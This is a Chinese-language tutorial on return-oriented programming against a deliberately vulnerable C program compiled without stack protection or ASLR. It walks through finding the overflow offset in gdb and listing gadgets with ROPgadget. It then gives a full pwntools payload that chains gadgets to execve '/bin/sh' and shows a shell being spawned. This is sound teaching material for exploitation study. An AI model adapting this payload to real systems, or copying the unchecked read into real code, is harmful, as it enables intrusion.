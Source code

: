 
## [ROP 攻擊](https://en.wikipedia.org/wiki/Return-oriented_programming)
- 使用一連串的指令組合成一個完整的功能
	- 利用 ret 讓程式執行目標指令
	- RIP 裡面的內容是下一個要執行的指令；RSP 是目前 stack top 的位置
	- 在正常的情況下，程式當呼叫 `ret` 前會使用 pop 將 stack 內無用的內容丟掉、接著把 `rbp` 的內容設為 retrun 後的 `rbp`，最後讓 `rsp` 指在 return address 上
	- 藉由 overflow 在 stack 中加入一連串的指令(且指令以 ret 結尾)，當程式執行 ret 時就會執行 `rsp` 所指的內容，因為每個指令都是以 ret 結尾，所以會繼續執行 stack 中的下一道指令
- 如此一來就能使程式執行一連串的指令，ROP 的目的就是透過這一連串的指令組合成一個**有意義**的行為



# 範例

```c
#include<stdio.h>
#include<unistd.h>

int main(){
    char buf[20];
    puts("Do you want to learn ROP ?\n");
    printf("Your answer ?\n ");
    fflush(stdout);
    read(0,buf,160);
}
```
> 編譯時關閉 gcc 的保護 stack overflow 保護機制及關閉 ASLR

## 確認 buffer overflow 會碰觸到 return address

- 用 gdb 確認 overflow 並找出 overflow 的 offset
```c
$ gdb rop
(gdb) b main
(gdb) r
(gdb)  pattc 100
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
```
- 以 pattc 產生測試的文字長度，搭配 crashoff 找出造成 overflow 的 offset

```c
(gdb) c
Continuing.
Do you want to learn ROP ?
Your answer ?
 AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Legend: code, data, rodata, heap, value
Stopped reason: SIGSEGV
0x00000000004009fa in main ()
```
- 上述訊息表示 buffer overflow 導致了 main 的 return address 錯誤

```c
(gdb) crashoff
0x41304141 found at offset: 40
```
- 計算出 offset 為40

## 透過 ROP 取得 shell

想讓程式執行 `exec("/bin/sh")`，但程式中沒有這段程式碼，所以必須透過 ROP 組成

系統呼叫的執行方式  [system call table](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

|Syscall #|Param 1|Param 2|Param 3|Param 4|Param 5|Param 6|
|---|---|---|---|---|---|---|
|rax|rdi|rsi|rdx|r10|r8|r9|
|59|const char *filename|const char *const argv[]|const char *const envp[]|-|-|-|
- 59 在 system call 中是 sys_execve 的編號


### 觸發system call並執行shell的條件

- rdi = pointer to filename
    - 讓 rdi 指向一個 buffer ，buffer 儲存的內容為 “/bin/sh”
- rsi = 0
- rax = 0x3b
- rdx = 0

找出可利用的指令將 rax, rdi, rsi, rdx 的內容設定成目標數值
- pop rax
    - 將 stack top 放入 rax
- pop rdi
    - 將 stack top 放入 rdi
- pop rsi
    - 將 stack top 放入 rsi
- pop rdx
    - 將 stack top 放入 rdx

### 尋找指令位置

以尋找帶有 rdi 的指令為例：

```shell
$ ROPgadget --binary rop | grep 'rdi' 
```

- 找到可利用的指令並記錄記憶體位置，**切記指令結尾必須要是 ret**
```c
0x0000000000467265 : syscall ; ret  #呼叫 system call
0x00000000004014c6 : pop rdi ; ret
0x0000000000478636 : pop rax ; pop rdx ; pop rbx ; ret
0x00000000004015e7 : pop rsi ; ret
0x000000000047a622 : mov qword ptr [rdi], rsi ; ret  #將 rdi 作為一個 ptr，把 rsi 的內容放入 rdi 指到目標內容
```

- gdb 找可用的 buffer (作為 filename)
```c
(gdb) vmmap
Warning: not running or target is remote
Start              End                Perm      Name
0x004002c8         0x004a1149         rx-p      /home/xxxx/下載/函式呼叫/rop
0x00400190         0x004c9497         r--p      /home/xxxx/下載/函式呼叫/rop
0x006c9eb8         0x006cd408         rw-p      /home/xxxx/下載/函式呼叫/rop

使用 0x006c9eb8 可寫入的 buffer
```

### 實作攻擊

- python pwntool module 製作 payload (檔名 `payload.py`)
```python
from pwn import *
# 把剛剛紀錄的 gadget 位置、buffer 位置、offset 紀錄
offset = 40
scall = 0x467265
pop_rdi = 0x4014c6
pop_rsi = 0x4015e7
pop_rax_rdx_rbx = 0x478636
mov_ptr_rdi_rsi = 0x47a622
buf = 0x006c9eb8+200 #避免 buffer 以有其他用途，往後200單位開始使用

# 製作 payload 
# flat 將 [] 內容從字串形式轉換成 p64 編碼
# \x00 
payload = 'a'*40+flat([pop_rdi,buf,pop_rsi,'/bin/sh\x00',mov_ptr_rdi_rsi,pop_rax_rdx_rbx,0x3b,0x0,0x0,pop_rsi,0x0,scall])
print(payload)
```


```shell
$ python payload.py >> payload
$ cat payload
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@l@/bin/sh"G6G;@erF
```

```c
$ gdb -q rop
(gdb) r < payload
Starting program: rop < payload
Do you want to learn ROP ?

Your answer ?
 process 828 is executing new program: /bin/dash
[Inferior 1 (process 828) exited normally]

這個程式成功呼叫 `/bin/dash `
```

#C語言 #函式 